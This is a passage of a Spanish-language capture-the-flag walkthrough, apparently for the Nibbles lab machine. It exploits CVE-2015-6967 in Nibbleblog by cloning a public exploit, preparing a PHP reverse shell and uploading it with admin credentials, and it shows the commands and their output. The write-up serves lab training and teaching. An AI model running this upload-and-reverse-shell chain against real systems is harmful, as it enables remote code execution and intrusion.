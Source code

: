 ```bash
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

Al analizar en profundidad la posible vulnerabilidad, nos encontramos con el siguiente `CVE-2015-6967`.

{% hint style="danger" %}
La vulnerabilidad de carga de archivos sin restricciones en el complemento My Image en Nibbleblog anterior a 4.0.5 permite a los administradores remotos ejecutar código arbitrario cargando un archivo con una extensión ejecutable y luego accediendo a él mediante una solicitud directa al archivo en content/private/plugins/my\_image/image.php.
{% endhint %}

{% embed url="https://www.incibe.es/en/incibe-cert/early-warning/vulnerabilities/cve-2015-6967" %}

Nos encontramos con el siguiente repositorio de GitHub que nos permite realizar la subida del archivo malicioso.

{% embed url="https://github.com/dix0nym/CVE-2015-6967" %}

```bash
❯ git clone https://github.com/dix0nym/CVE-2015-6967; cd CVE-2015-6967
Clonando en 'CVE-2015-6967'...
remote: Enumerating objects: 7, done.
remote: Counting objects: 100% (7/7), done.
remote: Compressing objects: 100% (6/6), done.
remote: Total 7 (delta 0), reused 4 (delta 0), pack-reused 0 (from 0)
Recibiendo objetos: 100% (7/7), listo.
```

En nuestro directorio actual de trabajo, nos copiaremos el archivo `php-reverse-shell.php` el cual modificaremos para indicarle nuestra dirección IP y puerto donde recibiremos la Reverse Shell.

```bash
❯ cp /usr/share/webshells/php/php-reverse-shell.php .
```

<figure><img src="../../.gitbook/assets/4956_vmware_6VKwFuJCPs.png" alt=""><figcaption></figcaption></figure>

Renombraremos el archivo mencionado, y ejecutaremos el exploit para subir el archivo malicioso al CMS.

```bash
❯ mv php-reverse-shell.php shell.php

❯ python3 exploit.py --url http://10.10.10.75/nibbleblog/ --username admin --password nibbles --payload shell.php
[+] Login Successful.
[+] Upload likely successfull.
[+] Exploit launched, check for shell.
```
